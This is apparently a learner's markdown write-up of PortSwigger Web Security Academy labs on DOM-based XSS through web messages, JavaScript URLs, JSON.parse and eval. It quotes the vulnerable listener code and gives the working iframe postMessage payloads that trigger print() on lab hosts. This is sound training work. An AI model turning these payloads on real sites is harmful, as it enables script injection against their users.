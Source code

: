## DOM-Based Vulnerabilities 

#### Lab: DOM XSS Using Web Messages
- Exploit server to post a message to the target site that causes the `print()` function to be called.
- When I loaded the lab, I noticed this odd `[object Object` that was appearing at the top of the homepage. I reviewed the source code, and I saw the following JavaScript. I recognized the `innerHTML` as bad immediately. So it's getting the document with element id of `ads`. Unlike the resource available at https://portswigger.net/web-security/dom-based/controlling-the-web-message-source, this is not being passed into an `eval()` function.
- The issue here is that the  event listener does not verify the origin of the message, and the postMessage() from the iframe specifies targetOrigin as *, the event listener accepts the payload and passes it into the sink.
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```
- So let's construct an iframe ... at first, I was really confused because I could not get the script tags to work. Then I found this: "The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`. Event handlers such as `onload` and `onerror` can be used in conjunction with these elements."
  - I started with `<iframe src="https://0a8b009b04034dbd81757127009a00ac.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('</div></div><script>print()</script>','*')">`, and then I transformed it to this: `<iframe src="https://0a8b009b04034dbd81757127009a00ac.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">` which solved the lab (resulting in the print popup window!). 
<img width="2542" height="1353" alt="image" src="https://github.com/user-attachments/assets/47ecf6a9-5ae3-4025-9725-c6f0af766487" />

#### Lab: DOM XSS Using Web Messages and JavaScript URL
- I knew it was a DOM-based redirection vulnerability through web messaging, so I just needed to locate it. I noticed there was comment functionality on the blog posts of the web app, so I focused there.
- The comment functionality allows a user to provide a website, which is then linked to the username. Upon pressing the username, the user is redirected to the website ... this must be where the vulnerability is. Let's take a look...wait, there's no web messaging functionality here. This must not be it. Good place to look for another lab, but let's move on ...
- Ah, I found it on the homepage...there's the sink, `location.href`, which is the full URL of the current page. We know that we need to construct an HTML page on the exploit server to solve this lab:
```

                        window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);

```
- I struggled with constructing the payload here. I knew it needed to have `https:` or `http:`, and I knew it was a JavaScript URL. I attempted `<iframe src="https://0aad00b0039dc1f980ba1c2e003f00ae.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('javascript:print(); http:','*')">` thinking the semicolon would terminate it, but I wasn't really considering the rest of the message - the http:. What I needed to do instead was comment out the rest with JavaScript comment, `//`, to prevent a syntax error or whatever that was causing the failure on my origina attempt ... so the final payload is `<iframe src="https://0aad00b0039dc1f980ba1c2e003f00ae.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`.

#### Lab: DOM XSS Using Web Messages and `JSON.parse`
```

                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
```
- The final payload was `<iframe src=https://0a83008804269a0380e017cb00670089.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`. What did I learn? You need to backslash quotation marks for JSON, `\"`. I reviewed the code, and I noted that `d.url` could be provided as the JavaScript URL from the previous lab. I can see the cases to assist with the JSON keys...
- When the constructed `iframe` loads, the `postMessage()` method sends a web message to the home page with the type `load-channel`. The event listener receives the message and parses it with `JSON.parse()` before sending it to the switch.
- The switch triggers `load-channel` case, which assigns the `url` property of the message to the `src` attribute of the ACMEplayer.element `iframe`. However, in our case, the `url` property of the message was actually a JavaScript payload. 
- **Why does this happen?** The event handler does not contain any form of origin check and the second argument specifics that any targetOrigin is allowed for the web message.

#### Lab: Reflected DOM XSS
- I navigated to the Debugger, and I reviewed the JavaScript file titled 'searchResults.js'. During this time, I got distracted, and I basically forgot to examine the requests coming into Burp altogether. This would be a mistake. 
- If I had paid attention, I would've noticed my search term is displayed as part of JSON. Reviewing searchResultsjs, we see this: `eval('var searchResultsObj = ' + this.responseText);`. Reminder, XHR is XML HTTP Request which is an API in the form of a JavaScript object to transmit HTTP method requests from a web browser to a web server. 
- To break out of the JSON, I had to experiment with quotes and backslashes: `/search-results?search=\"\}test`
![alt text](<Photos/2025-08-31 21_55_27-Burp Suite Community Edition v2025.7.4 - Temporary Project.png>)
![alt text](<Photos/2025-08-31 21_56_56-Burp Suite Community Edition v2025.7.4 - Temporary Project.png>)
